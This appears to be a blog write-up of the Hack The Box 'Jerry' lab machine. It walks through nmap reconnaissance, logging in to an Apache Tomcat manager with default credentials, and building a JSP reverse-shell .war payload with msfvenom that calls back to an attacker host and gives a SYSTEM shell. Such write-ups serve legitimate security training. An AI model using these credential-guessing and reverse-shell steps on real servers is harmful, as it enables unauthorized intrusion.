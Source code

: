 ﻿---
title: 'Jerry Walkthrough: Brute-Forcing Default Service Credentials '
date: 2024-10-28 12:00:00 +0530
categories: [red-teaming]
tags:
- HTB
- standalone
- brute-force
description: Walkthrough of HTB's Jerry machine
---
### Recon

Started with NMAP Scan to discover open ports

```bash
sudo nmap -T5 -sS -n -Pn --disable-arp-ping -p- 10.10.10.95 --max-retries 0 
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-21 08:43 EDT
Warning: 10.10.10.95 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.95
Host is up (0.093s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 88.83 seconds
```

To further identify the SMB version running and possibly determine the OS, I ran a targeted Nmap Aggressive scan:

```bash
sudo nmap -A -n -Pn --disable-arp-ping --stats-every=5s -p 8080 10.10.10.95 --max-retries 0
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2012|8|Phone|7 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 (89%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%), Microsoft Windows Server 2012 R2 (89%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Embedded Standard 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

Nmap done: 1 IP address (1 host up) scanned in 18.62 seconds

```

A service named €œApache Tomcat€ running on the port 8080. The http-open-proxy script indicates that the server might be misconfigured as an open proxy.

### Nmap Flags:

- **`sS`**: Performs a SYN scan (stealth scan).
- **`n`**: Disables DNS resolution to speed up scanning.
- **`-disable-arp-ping`**: Skips ARP ping.
- **`p`**: Scans all of the ports.
- **`A`**: Agressive Scan, which performs OS Detection, Version detection, Default script scanning
- **`--script=vuln,exploit` :** Runs NMAP default NSE vuln, exploit scripts to identify potential vulnerabilities.

NMAP was unable to determine any vulnerabilities for the service, but found some interesting paths

```bash

PORT     STATE SERVICE
8080/tcp open  http-proxy
| http-enum: 
|   /examples/: Sample scripts
|   /manager/html/upload: Apache Tomcat (401 Unauthorized)
|   /manager/html: Apache Tomcat (401 Unauthorized)
|_  /docs/: Potentially interesting folder

```

### Brute-Forcing credentials

![image.png]({{ '/assets/img/Jerry/image.png' | relative_url }})

Tried accessing €œServer status€, which returned a pop-up asking for credentials to access the page as shown below.

![image.png]({{ '/assets/img/Jerry/image%201.png' | relative_url }})

Brute-forced few known credentials found on [google](https://stackoverflow.com/questions/3829513/what-is-the-default-username-and-password-in-tomcat). Username:Password- admin:admin worked for logging into €œServer Status€, €œManager App€,€Host Manager€

Found some interesting information on the webpage €œHost Manager€ 

![image.png]({{ '/assets/img/Jerry/image%202.png' | relative_url }})

With the credentials obtained tomcat:s3cret (Username:Password), logged into €œTomcat Web Application Manager€ on an another Private tab. 

![image.png]({{ '/assets/img/Jerry/image%203.png' | relative_url }})

As the tomcat user, we can upload a .war file  to the server.

![image.png]({{ '/assets/img/Jerry/image%204.png' | relative_url }})

A .war (Web application Archive) file is a packaged file format used to distribute Java-based web applications. It stands for Web application resource and is essentially a compressed archive similar to a .zip file., but with a speific structure intended for deployment on a Java EE server, such as Apache Tomcat.

### Generating Payload & Obtaining a Reverse Shell

Generating .war payloads using €œmsfvenom€

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.6 LPORT=4444 -Ff war -o test.war
```

Successfully uploaded the file (test.war) to the server

![image.png]({{ '/assets/img/Jerry/image%205.png' | relative_url }})

Accessing the file via web browser at €œtest€ location resulted in obtaining a reverse shell.

![image.png]({{ '/assets/img/Jerry/image%206.png' | relative_url }})

Obtained shell has SYSTEM Privileges

![image.png]({{ '/assets/img/Jerry/image%207.png' | relative_url }})

The flags are located at Administrator€™s Desktop

![image.png]({{ '/assets/img/Jerry/image%208.png' | relative_url }})

### Disclaimer

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*




